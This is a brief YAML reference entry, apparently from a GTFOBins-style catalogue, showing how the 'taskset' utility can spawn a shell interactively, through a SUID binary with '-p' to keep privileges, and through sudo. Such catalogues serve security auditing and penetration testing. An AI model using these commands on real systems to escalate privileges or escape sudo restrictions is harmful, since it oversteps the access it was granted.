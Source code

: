 ```yaml
---
functions:
  execute-interactive:
  - code: taskset 1 /bin/sh
  suid-enabled:
  - code: "./taskset 1 /bin/sh -p"
  sudo-enabled:
  - code: sudo taskset 1 /bin/sh
---
```

